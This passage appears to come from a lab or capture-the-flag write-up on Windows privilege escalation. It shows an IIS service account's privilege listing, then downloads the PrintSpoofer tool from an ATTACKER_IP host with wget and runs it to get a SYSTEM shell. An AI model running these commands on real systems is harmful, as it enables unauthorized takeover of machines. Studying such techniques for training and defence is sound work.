 ```shell-session

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

As is seen, the user has `SeImpersonatePrivilege`, `SeCreateGlobalPrivilege`, `SeChangeNotifyPrivilege` privileges. We can use the [`PrintSpoof` exploit](https://github.com/itm4n/PrintSpoofer) to get admin privileges:

```shell-session
C:\Users\Public\Documents>powershell
powershell
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\Public\Documents> wget "http://ATTACKER_IP:8080/PrintSpoofer.exe" -O printspoofer.exe
PS C:\Users\Public\Documents> ./printspoofer.exe -i -c cmd
./printspoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```